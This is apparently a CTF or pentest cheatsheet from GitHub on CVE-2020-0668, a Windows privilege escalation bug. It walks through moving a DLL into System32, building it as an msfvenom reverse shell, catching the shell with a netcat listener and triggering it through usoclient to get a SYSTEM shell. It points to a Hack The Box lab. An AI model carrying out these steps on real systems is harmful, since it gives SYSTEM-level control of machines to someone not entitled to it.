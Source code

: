 # CVE-2020-0668 - Microsoft Windows Service Tracing Arbitrary File Move Local Privilege Escalation Vulnerability

Use CVE-2020-0668 to perform an arbitrary privileged file move operation.

Use [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) (Windows >= 1903) OR [diaghub](https://github.com/xct/diaghub) (Windows < 1903) for privilege escalation.

## Enumeration

```bash
systeminfo
```

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v BuildLabEx
```

## Abuse `Update Session Orchestrator` service

### Windows >= 1903

#### Usage 1 - UsoDllLoader

> Abuse `Update Session Orchestrator` service with `UsoDllLoader.exe` if not updates pending.

1. Transfer files to target
2. Verify dll file is not present yet - `dir C:\Windows\System32\WindowsCoreDeviceInfo.dll`
3. Execute PS script that abuses of the vuln - `./CVE-2020-0668.ps1`
4. Dll file should be present now - `dir C:\Windows\System32\WindowsCoreDeviceInfo.dll`
5. Use the dll loader - `UsoDllLoader.exe`
6. If it works you should have a shell as `NT AUTHORITY\SYSTEM`

#### Usage 2 - UsoClient

> Abuse `Update Session Orchestrator` service with `usoclient` if not updates pending.

1. Create `WindowsCoreDeviceInfo.dll` with reverse shell payload - [msfvenom](https://github.com/rafamarrara/CTFs/blob/main/cheatsheets/toolMsfvenom.md)
2. Transfer files to target (use the revshell dll from previous step)
3. Verify dll file is not present yet - `dir C:\Windows\System32\WindowsCoreDeviceInfo.dll`
4. Execute PS script that abuses of the vuln - `./CVE-2020-0668.ps1`
5. Dll file should be present now - `dir C:\Windows\System32\WindowsCoreDeviceInfo.dll`
6. Start a listener at attack host - `rlwrap -cAr nc -nlvp 4455`
7. Use the command `usoclient StartInteractiveScan` - Note that you won't get any feedback from the command.
8. After a few seconds you should have a shell connecting back to your listener as `NT AUTHORITY\SYSTEM`

## Windows < 1903

> TBD

## Extra

Quick powershell script to list available updates to help abusing `Update Session Orchestrator`. If nothing is returned, then no updates are available. There are two options for $r listed below, you can see how they differ.

```powershell
$u = New-Object -ComObject Microsoft.Update.Session
$u.ClientApplicationID = 'MSDN Sample Script'
$s = $u.CreateUpdateSearcher()
#$r = $s.Search("IsInstalled=0 and Type='Software' and IsHidden=0")
$r = $s.Search('IsInstalled=0')
$r.updates|select -ExpandProperty Title
```

### Abuse `Mozilla Maintenance Service` service

> `Mozilla Maintenance Service` service runs in the context of `SYSTEM` and is **startable** by unprivileged users.
> Non-system protected binary for this service: `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

1. TBD
2. `net start MozillaMaintenance`

## Links

- [itm4n blog - CVE-2020-0668](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/)
- [Microsoft - CVE-2020-0668](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-0668)
- [GitHub - UsoDllLoader](https://github.com/itm4n/UsoDllLoader)
- [GitHub - diaghub](https://github.com/xct/diaghub)
- [GitHub - RedCursorSecurityConsulting - CVE-2020-0668](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668)
- [HTB Remote (Windows >= 1903) - Good lab machine](https://app.hackthebox.com/machines/234)
